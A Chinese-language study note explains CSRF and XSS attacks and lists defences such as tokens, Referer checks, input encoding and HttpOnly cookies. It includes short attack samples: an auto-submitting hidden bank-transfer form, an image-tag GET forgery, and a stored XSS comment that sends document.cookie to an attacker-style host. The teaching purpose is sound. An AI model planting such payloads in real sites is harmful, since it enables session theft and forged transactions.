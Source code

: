 # CSRF 和 XSS

## CSRF

Cross site request forgery，跨站请求欺骗，利用的是对于浏览器的信任。

一般情况的**被攻击流程**：

* 首先用户C浏览并登录了受信任站点A；
* 登录信息验证通过以后，站点A会在返回给浏览器的信息中带上已登录的cookie，cookie信息会在浏览器端保存一定时间（根据服务端设置而定）；
* 完成这一步以后，用户在没有登出（清除站点A的cookie）站点A的情况下，访问恶意站点B；
* 这时恶意站点 B的某个页面向站点A发起请求，而这个请求会带上浏览器端所保存的站点A的cookie；
* 站点A根据请求所带的cookie，判断此请求为用户C所发送的。

这样一来站点 A 会按照用户 C 的权限受理刚刚收到的请求，可能为发送邮件，短信，甚至转账等等。



### Get请求的攻击

例如某银行按照 Get 请求发起转账，转账的地址为www.xxx.com/transfer.do?accountNum=l000l&money=10000，表示给 account 为10001的账户转账10000元。

在某个网站中，可能有一个图片，其链接为

```html
<img src ='www.xxx.com/transfer.do?accountNum=l000l&money=10000'>
```

那么在进入页面的时候就会自动加载，并且因为用户没有登出银行网站，于是这一条请求就被执行了。而且使用的是用户的 cookie(权限)



### Post 请求的攻击

大多数的网站不会使用 Post 来进行数据更新，于是就有了新的方法

```html
<form id="aaa" action="http://www.xxx.com/transfer.do" metdod="POST" display="none">
    <input type="text" name="accountNum" value="10001"/>
    <input type="text" name="money" value="10000"/>
</form>
<script>
    var form = document.forms('aaa');
    form.submit();
</script>
```

可以看到在上面这个部分种，有一个隐藏的表单，在用户加载的时候自执行提交，于是就变成了 Post 请求。如果参数如此简单，那么就会被攻击。



### CSRF防御

1. 尽量使用 Post 而不是 Get
2. 将 cookie 属性设置为 Httponly，这样通过程序(js 脚本或者 applet)就无法读到 cookie，也就避免了伪造 cookie 的行为
3. 使用额外参数 token，每次会话服务器会产生一个随机 token，在受信任网站 A 中某处存放(可以存放在 cookie 或者 localstorage 中)，提交的时候会连带 token 一起提交，即在请求中会增加一个字段，因此其他网站因为无法得到 cookie，因此无法增加这个字段，所以无法伪造这个 token
4. 通过 http 头的Referer字段辨认，当用户在本页面发起请求的时候，refer 值是http://www.xxx.com(对于本例)，但是如果在外源网站发起申请 referer 就会是外源网址。

```javascript
String referer = request.getHeader("Referer"); // 获取 Referer 值
```

## XSS攻击

Cross Site Scripting 跨站脚本，利用的是对用户的信任。分为三类，**反射型**，**存储型**，**Dom-based**

其中`反射型和 dom-based 为非持久性攻击，存储型为持久性攻击`。



### 反射型(恶意链接)

主要方式为用户点在恶意网站击某个链接的时候，脚本通过一些方式窃取用户信息然后返回到网站服务端。

例如某网站为：

```html
<body>
  <div>
    <a href="http://localhost:3001/xss">xxs 攻击</a>
    <a href="http://localhost:3001/testcookie">testcookie 攻击</a>
  </div>
</body>
```

后端为：

```javascript
router.get('/xss', (ctx, next) => {
  ctx.body = '<script>alert("反射型 XSS 攻击")</script>';
});

router.get('/testcookie', (ctx, next) => {
  console.log(ctx.cookies.get('connect.sid'));
  ctx.body = '<script>alert("'+ctx.cookies.get('connect.sid')+'")</script>';
  next();
});
```

用户如果点击了这两个链接，对应的内容就会被执行，用户的 cookie 就会被获取。

### 存储型

存储型一般利用的是把恶意代码插入数据库中。

例如一个论坛网站，有一个地方可以发表评论，在这个地方，恶意用户写一段代码作为评论，然后作为评论插入了数据库中，例如：

```javascript
<script>window.open("www.gongji.com?param="+document.cookie)</script>
```

这条评论如果不加任何处理加入数据库中，那么下次浏览这条评论的人的浏览器就会执行上面这段代码。

上面这段代码会产生一个 get 请求，www.gongji.com?param= 用户的 cookie，这样在恶意网站的后台，就可以看到用户的访问记录，从而拿到用户的 cookie。



### Dom-based

Dom-based 攻击方法主要基于一个事情，就是早期时候利用 js 或者 jquery 对于 html 和用户输入的拼接。例如：

```javascript
document.getElementbyId('id').innerHtml = '自定义部分' +用户输入 +'自定义部分'
```

如果有一段代码值为：javascript:alert('dom-xss')， 或者插入一段代码破坏代码结构的转义，或者输入一段代码进行标签闭合，就会破坏 html 结构。

因为使用 innerHtml 会直接解析恶意代码，导致恶意代码执行。



## Xss 防御

1. 永远不要相信用户输入，对用户输入进行过滤。
2. 对于要拼接的部分，对于潜在威胁的部分，进行编码，例如< 转成 &lt. > 转成 &gt. 这个样子。 
3. cookie 设置 httponly，这样在 document 中无法看到 cookie







参考链接：1. [安全|常见的Web攻击手段之CSRF攻击](https://www.jianshu.com/p/67408d73c66d)

2. [Web 安全之Xss 攻击原理及防范](https://www.cnblogs.com/tugenhua0707/p/10909284.html)


